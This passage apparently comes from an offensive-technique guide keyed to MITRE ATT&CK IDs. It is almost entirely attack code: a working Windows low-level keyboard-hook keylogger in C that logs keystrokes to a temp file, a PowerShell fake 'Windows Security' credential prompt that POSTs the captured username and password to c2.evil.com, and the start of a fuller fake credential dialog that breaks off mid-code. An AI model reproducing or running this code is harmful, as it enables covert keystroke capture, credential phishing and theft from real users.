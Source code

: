**Windows API Keylogger**:
```c
#include <windows.h>
#include <stdio.h>

FILE *log_file;

LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION && (wParam == WM_KEYDOWN || wParam == WM_SYSKEYDOWN)) {
        KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
        
        // Log keystroke
        fprintf(log_file, "%c", kbd->vkCode);
        fflush(log_file);
    }
    
    return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int main() {
    log_file = fopen("C:\\Windows\\Temp\\log.txt", "a");
    
    // Install keyboard hook
    HHOOK hook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);
    
    // Message loop
    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    
    fclose(log_file);
    return 0;
}
```

### 4.2 Credential Prompt Injection (T1056.002)

```powershell
# Fake credential prompt
$cred = $host.ui.PromptForCredential("Windows Security", "Please enter your credentials to continue", "", "")

# Send credentials to C2
$username = $cred.UserName
$password = $cred.GetNetworkCredential().Password

Invoke-WebRequest -Uri "http://c2.evil.com/collect" -Method POST -Body @{user=$username;pass=$password}
```

**Advanced Credential Phishing**:
```powershell
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$form = New-Object System.Windows.Forms.Form
$form.Text = "Windows Security"
$form.Size = New-Object System.Drawing.Size(400,200)
$form.StartPosition = "CenterScreen"
$form.TopMost = $true
$form.Icon = [System.Drawing.SystemIcons]::Shield

$label = New-Object System.Windows.Forms.Label
```